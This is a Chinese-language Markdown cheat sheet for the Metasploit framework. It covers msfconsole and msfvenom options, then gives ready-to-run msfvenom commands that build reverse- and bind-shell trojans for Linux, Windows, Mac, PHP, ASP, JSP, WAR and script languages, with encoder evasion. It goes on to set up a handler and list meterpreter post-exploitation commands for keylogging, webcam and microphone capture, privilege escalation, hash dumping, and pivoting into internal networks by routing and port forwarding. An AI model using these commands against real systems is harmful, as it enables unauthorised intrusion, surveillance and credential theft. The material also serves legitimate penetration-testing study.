


# Metasploit

## 主要模块

```
攻击模块：exploits
辅助模块：auxiliary
后渗透模块：post
攻击载荷：payloads
编码器：encoders
空字节模块：nops
免杀模块：evasion
```

## msfconsole

作用：用来在命令行下启动metasploit

### 帮助选项

msfconsole –h 是显示在msfconsole初始化的选项和参数

```shell
常用选项:
    -E, --environment ENVIRONMENT    如果已设置，将使用RAIL_ENV环境变量。如果都不是RAILS_ENV环境变量，则默认为'production'

数据库选项:
    -M, --migration-path DIRECTORY   指定包含其他数据库迁移的目录
    -n, --no-database                禁用数据库支持
    -y, --yaml PATH                  指定包含数据库设置的YAML文件

框架选项:
    -c FILE                          加载指定的配置文件
    -v, -V, --version                显示版本

模块选项:
        --defer-module-loads         延迟模块加载，除非明确询问
    -m, --module-path DIRECTORY      加载其他模块路径

控制台选项:
    -a, --ask                        在退出Metasploit之前询问或接受“exit-y”
    -H, --history-file FILE          将命令历史保存到指定的文件
    -L, --real-readline              使用系统Readline库而不是RbReadline
    -o, --output FILE                输出到指定的文件
    -p, --plugin PLUGIN              启动时加载插件
    -q, --quiet                      启动时不打印字符画
    -r, --resource FILE              执行指定的资源文件（-for stdin）
    -x, --execute-command COMMAND    执行指定的控制台命令（用;分隔）
    -h, --help                       显示帮助
```

### help 或 ？

help则是显示进入msfconsole后可以利用的选项

```shell
Core Commands
=============

    Command       Description
    -------       -----------
    ?             显示帮助 等同于'help'
    banner        显示字画符
    cd            切换目录
    color         启用或禁用颜色输出     color <'true'|'false'|'auto'>
    connect       远程连接主机        connect ip port
    exit          退出控制台
    get           用于获取一个或多个变量的值
    getg          获取全局变量的值
    grep          用于查找符合条件的字符串
    help          帮助菜单 等同于'?''
    history       显示命令历史记录
    load          加载框架插件
    quit          退出控制台
    repeat        重复执行命令
    route         做跳板代理转发
    save          保存活动数据存储
    sessions      转储会话列表并显示有关会话的信息
    set           设置变量
    setg          设置全局变量
    sleep         在指定的秒数内不执行任何操作
    spool         将控制台输出写入文件 spool <off>|<filename>
    threads       查看和操作后台线程
    tips          显示一些有用的技巧
    unload        卸载框架插件
    unset         取消设置的变量
    unsetg        取消设置的全局变量
    version       显示版本信息

Module Commands
===============

    Command       Description
    -------       -----------
    advanced      显示模块的高级选项
    back          返回
    clearm        清除模块堆栈
    info          显示有关模块的信息
    listm         列出模块堆栈
    loadpath      从路径搜索和加载模块
    options       显示全局选项或一个或多个模块
    popm          从堆栈中取出最新模块并使其处于活动状态
    previous      将以前加载模块作为当前模块
    pushm         将活动的模块放入模块堆栈
    reload_all    从所有定义的模块路径重新加载所有模块
    search        搜索模块名称和描述
    show          显示给定类型的模块或所有模块    show exploits;show payloads.....
    use           使用模块

Job Commands
============

    Command       Description
    -------       -----------
    handler       快速建立监听
    jobs          查看目前存在哪些任务
    kill          结束任务
    rename_job    修改任务名

Resource Script Commands
========================

    Command       Description
    -------       -----------
    makerc        保存从开始到文件输入的命令
    resource      运行存储在文件中的命令
```

## msfvenom

作用：生成木马文件

- **msfvenom命令行选项**

```shell
-p, --payload    <payload>       指定需要使用的payload(攻击荷载)
-l, --list       [module_type]   列出指定模块的所有可用资源,模块类型包括: payloads, encoders, nops, all
-n, --nopsled    <length>        为payload预先指定一个NOP滑动长度
-f, --format     <format>        指定输出格式 (使用 --help-formats 来获取msf支持的输出格式列表)
-e, --encoder    [encoder]       指定需要使用的encoder（编码器）
-a, --arch       <architecture>  指定payload的目标架构
--platform   <platform>      指定payload的目标平台
-s, --space      <length>        设定有效攻击荷载的最大长度
-b, --bad-chars  <list>          设定规避字符集，比如: &#039;\x00\xff&#039;
-i, --iterations <count>         指定payload的编码次数
-c, --add-code   <path>          指定一个附加的win32 shellcode文件
-x, --template   <path>          指定一个自定义的可执行文件作为模板
-k, --keep                       保护模板程序的动作，注入的payload作为一个新的进程运行
--payload-options            列举payload的标准选项
-o, --out   <path>               保存payload
-v, --var-name <name>            指定一个自定义的变量，以确定输出格式
--shellest                   最小化生成payload
-h, --help                       查看帮助选项
--help-formats               查看msf支持的输出格式列表
```

### 基础payload

- **命令格式**

```shell
msfvenom -p <payload> <payload options> -f <format> -o <path>
```

- **Linux**

```shell
反向连接：
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
正向连接：
msfvenom -p linux/x86/meterpreter/bind_tcp LHOST=<Target IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

- **Windows**

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

- **Mac**

```shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
Web Payloads
```

- **PHP**

```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

- **ASP**

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

- **JSP**

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

- **WAR**

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.wa
Scripting Payloads
```

- **Python**

```shell
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

- **Bash**

```shell
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

- **Prel**

```shell
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

- **Linux Based Shellcode**

```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

- **Windows Based Shellcode**

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

- **Mac Based Shellcode**

```shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
Handlers
```

#### payload加编码

- **命令格式**

```shell
msfvenom -p <payload> <payload options> -a <arch> --platform <platform> -e <encoder option> -i <encoder times> -b <bad-chars> -n <nopsled> -f <format> -o <path>
```

- **常用编码**

```
x86/shikata_ga_nai
cmd/powershell_base64
```

- **例子**

```shell
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 -f exe > 1.exe
```

### 自选模块

- **生成执行计算器payload例子**

```shell
msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > 1.exe    #calc.exe 计算器
```

### payload的坑

正常情况下，利用msfvenom生成的木马文件，可直接上传到目标服务器上运行（加权限）。但我自己遇到过一个坑，生成的文件内容有部分是无用的，会引起报错，如下图所示。





解决方案是vim文件，删除文件开头两行无效的内容。

### 配合木马弹Shell

如何使用msfvenom生成木马文件在msf连接上被执行的木马文件，达到控制目标服务器。

**常用的payload**

- **Linux相关的payload**

```
linux/x86/meterpreter/reverse_tcp
linux/x86/meterpreter/bind_tcp
linux/x86/shell_bind_tcp
linux/x86/shell_reverse_tcp
linux/x64/shell_reverse_tcp
linux/x64/shell_bind_tcp
```

- **Windows相关的payload**

```
windows/meterpreter/reverse_tcp
windows/meterpreter/bind_tcp
windows/shell_reverse_tcp
windows/shell_bind_tcp
windows/x64/meterpreter/reverse_tcp
windows/x64/meterpreter/bind_tcp
windows/x64/shell_reverse_tcp
windows/x64/shell_bind_tcp
```

注意：含有x64只适用目标服务器为64位操作系统的，没有x64或者使用x86的只适用32位操作系统；含有meterpreter的模块会反弹meterpreter_shell，而普通的shell模块只会反弹普通的shell（反弹结果跟nc类似）；reverse_tcp表示木马会主动连接目标服务器，bind_tcp表示木马会监听本地的端口，等待攻击者连接。因此生成的木马文件，要根据具体情况而定。

### 连接木马

开启msf，启用exploit/multi/handler模块

```shell
use exploit/multi/handler
set payload linux/x86/meterpreter/bind_tcp		#选择payload类型
show options
set RHOST 10.0.0.1
set LPORT 12345
exploit
```

### meterpreter shell

拿到目标服务器的meterpreter_shell后，可以进行的操作

```shell
backgroud 将msf进程放到后台
session -i 1 将进程拖回前台运行
run vnc 远程桌面的开启
```

- **文件管理功能**

```
Download     下载文件
Edit          编辑
cat           查看
mkdir         创建
mv            移动
rm            删除
upload        上传
rmdir         删除文件夹
```

- **网络及系统操作**

```
Arp          看ARP缓冲表
Ifconfig     IP地址网卡
Getproxy     获取代理
Netstat      查看端口链接
Kill         结束进程
Ps           查看进程
Reboot       重启电脑
Reg          修改注册表
Shell        获取shell
Shutdown     关闭电脑
sysinfo      获取电脑信息
```

- **用户操作和其他功能讲解**

```
enumdesktops     用户登录数
keyscan_dump　　 键盘记录－下载
keyscan_start　　键盘记录　－　开始
keyscan_stop 　　键盘记录　－　停止
Uictl　　　　　　获取键盘鼠标控制权
record_mic　　　 音频录制
webcam_chat　　　查看摄像头接口
webcam_list　　　查看摄像头列表
webcam_stream　　摄像头视频获取
Getsystem　　　　获取高权限
Hashdump　　　   下载ＨＡＳＨ
```

#### meterpreter添加路由

大多时候我们获取到的meterpreter shell处于内网，而我们需要代理到目标内网环境中，扫描其内网服务器。这时可以使用route功能，添加一条通向目标服务器内网的路由。

- **查看shell网络环境**

```
meterpreter > run get_local_subnets
```

- **添加一条通向目标服务器内网的路由**

```
meterpreter > run autoroute -s 100.0.0.0/8 (根据目标内网网络而定)
```

- **查看路由设置**

```
meterpreter > run autoroute –p
```

一般来说，在meterpreter中设置路由便可以达到通往其内网的目的。然而有些时候还是会失败，这时我们可以background返回msf>，查看下外面的路由情况。

```
route print
```

如果发现没有路由信息，说明meterpreter shell设置的路由并没有生效，我们可以在msf中添加路由。

```
msf>route add 10.0.0.0 255.0.0.0 1
```

说明：1表示session 1，攻击机如果要去访问10.0.0.0/8网段的资源，其下一跳是session1，至于什么是下一条这里不多说了，反正就是目前攻击机可以访问内网资源了。

- **meterpreter端口转发**

假设目前我们扫描到了10网段的某个ip存在mysql弱口令，账号密码都有了，那么我们可以在肉鸡服务器上登陆目标服务器mysql。当然，如果我想在攻击机上去登陆mysql，可以使用端口转发。（某些情况下，内网的机器也不能互相ssh，需要登陆堡垒机）

在meterpreter shell中输入：

```
meterpreter > portfwd add -l 55555 -r 10.0.0.1 -p 3306
```

表示将10.0.0.1服务器上的3306端口转发到本地的55555端口，然后我们可以在本地运行mysql –h 127.0.0.1 –u root –P 55555 –p 去登陆mysql。其他端口如ssh、ftp等都类似。